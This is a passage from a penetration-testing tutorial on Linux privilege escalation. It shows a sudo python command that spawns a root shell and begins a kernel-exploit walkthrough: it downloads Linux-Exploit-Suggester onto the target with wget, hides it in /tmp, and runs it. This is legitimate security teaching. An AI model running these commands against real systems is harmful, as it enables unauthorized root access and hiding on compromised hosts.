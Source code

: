         sudo python -c 'import os; os.system("/bin/bash")'

    As shown in the following screenshot, the preceding command will spawn a new bash session with “root” privileges.

    ![Python-spawned bash shell](python-spawned-bash-shell.png "Python-spawned bash shell")

    We have successfully been able to elevate our privileges to the highest level locally by exploiting a misconfigured SUDO permission.

## Kernel Exploits

The final privilege escalation technique we will be exploring is the process of utilizing kernel exploits in order to elevate our privileges on the target system.

This can be achieved performed automatically through the use of exploitation frameworks like Metasploit, however, in this case, we will be exploring the process of identifying, compiling and executing kernel exploits on the target manually.

It is to be noted that Kernel exploits are not a recommended or preferred escalation vector, primarily because the exploits interfere and interact with the Linux kernel, which can consequently lead to kernel panics or data loss. Furthermore, Kernel exploits are not a silver bullet and do not guarantee successfully privilege escalation.

1. The first step in this process will involve identifying kernel vulnerabilities on our target server, this process can be automated through the use of the Linux-Exploit-Suggester script. Linux-Exploit-Suggester is a Linux privilege escalation auditing tool that scans the target for potential vulnerabilities. More information regarding this script can be found here: https://github.com/mzet-/linux-exploit-suggester

    In order to use the script, we will need to transfer it over to the target system, this can be done by running the following command on the target system:

        wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh

    Note: It is always recommended to save your scripts and tools into a folder that is not frequently accessed on the target system, the preferred choice being the /tmp directory.

1. After downloading the script on to the target system, we will need to provide the script with executable permissions, this can be done by running the following command:

        chmod +x /tmp/les.sh

1. We can now execute the script on the target system by running the following command:

        /tmp/les.sh

    As shown in the following screenshot, the script will output a list of vulnerabilities that affect the target’s specific kernel version and distribution.
